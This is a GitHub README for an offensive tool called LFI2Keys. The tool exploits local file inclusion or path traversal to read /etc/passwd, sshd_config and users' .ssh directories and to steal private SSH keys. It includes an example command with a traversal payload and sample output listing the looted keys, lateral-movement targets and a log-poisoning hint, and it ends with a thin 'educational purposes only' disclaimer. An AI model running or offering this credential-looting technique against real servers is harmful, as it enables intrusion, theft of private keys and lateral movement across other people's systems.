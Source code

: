 ## Summary
Found a local file inclusion or path traversal vulnerability? Automate the extraction of private SSH keys with LFI2Keys. It uses the exposed `/etc/passwd` file to extract valid users, checks for SSH keys, and gathers useful SSH configuration details.

## Usage
Provide the full URL of the vulnerable endpoint where you can read the `/etc/passwd` file, and supply a private key [wordlist](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists). Use the `-v` parameter for verbose output and for printing the found private key.

```bash
┌──(kali㉿DC07 | 2025-02-12 00:13:37)-[~]
└─$ python3 lfi2keys.py -u https://127.0.0.1/cgi-bin/.%2e/.%2e/etc/passwd -l ssh-priv-key-loot-common.txt -a -o keys.txt

  _    ___ ___ ___ _  _______   _____ 
 | |  | __|_ _|_  ) |/ / __\ \ / / __|
 | |__| _| | | / /|   <| _| \ V /\__ \
 |____|_| |___/___|_|\_\___| |_| |___/

LFI to SSH Private Keys - Automated Looting Script

[*] The script provided is for educational purposes only, I am not responsible for your actions.
[+] Valid /etc/passwd file found
[+] Valid users exported:
    root -> /root (UID: 0)
    miranda -> /home/miranda (UID: 1001)
    steven -> /home/steven (UID: 1002)
    mark -> /home/mark (UID: 1003)
    nick -> /home/nick (UID: 1004)
[+] /etc/ssh/sshd_config file found
    PermitRootLogin: disabled
    PubkeyAuthentication: enabled
    PasswordAuthentication: disabled
    ChallengeResponseAuthentication: disabled
[+] Checking for SSH metadata (authorized_keys, known_hosts and .ssh/config)...
[!] Found authorized_keys for nick: https://127.0.0.1/cgi-bin/.%2e/.%2e/nick/.ssh/authorized_keys
[!] Found authorized_keys.bak for nick: https://127.0.0.1/cgi-bin/.%2e/.%2e/nick/.ssh/authorized_keys.bak
[!] Found known_hosts for miranda: https://127.0.0.1/cgi-bin/.%2e/.%2e/nick/.ssh/known_hosts
[!] SSH config found for mark (https://127.0.0.1/cgi-bin/.%2e/.%2e/mark/.ssh/config) - possible lateral movement
    Host: TestServer
       HostName: 192.168.1.10
       User: Thunderdome
       Port: 2222
       IdentityFile: ~/.ssh/gabber.key
[!] Private key found for mark at: https://127.0.0.1/cgi-bin/.%2e/.%2e/mark/.ssh/gabber.key
[+] Starting to FUZZ
[!] Private key found for nick at: https://127.0.0.1/cgi-bin/.%2e/.%2e/nick/.ssh/id_rsa
[!] Private key found for steven at: https://127.0.0.1/cgi-bin/.%2e/.%2e/home/test/.ssh/id_ecdsa-sk
[+] No accessible SSH keys found for additional directories
[!] Log file found: https://127.0.0.1/cgi-bin/.%2e/.%2e/var/log/auth.log - this file may be used for log poisoning if writable
[+] Results saved to keys.txt
[+] Done (～￣▽￣)～
```

## Options
```bash
  -h, --help            show this help message and exit
  -u, --url URL         LFI URL pointing to /etc/passwd
  -l, --list LIST       Wordlist containing SSH private key names
  -o, --output OUTPUT   File to save found private key URLs and contents
  -p, --proxy PROXY     Proxy URL (e.g., http://127.0.0.1:8080)
  -v, --verbose         Enable verbose mode for debugging
  -a, --all             Also search the entire home directory and additional paths
  --ignore-403          Continue scanning even if a 403 status code is encountered
  --no-rate-limit       Disable rate limiting on proxy (for debug/testing purposes)
  -c, --continue-on-success
                        Continue scanning all users for private keys even after a match is found
```

## Disclaimer
The script provided is for educational purposes only, I am not responsible for your actions.

### Credits
- [PinoyWH1Z](https://github.com/PinoyWH1Z) for his [SSH private key wordlists](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists).
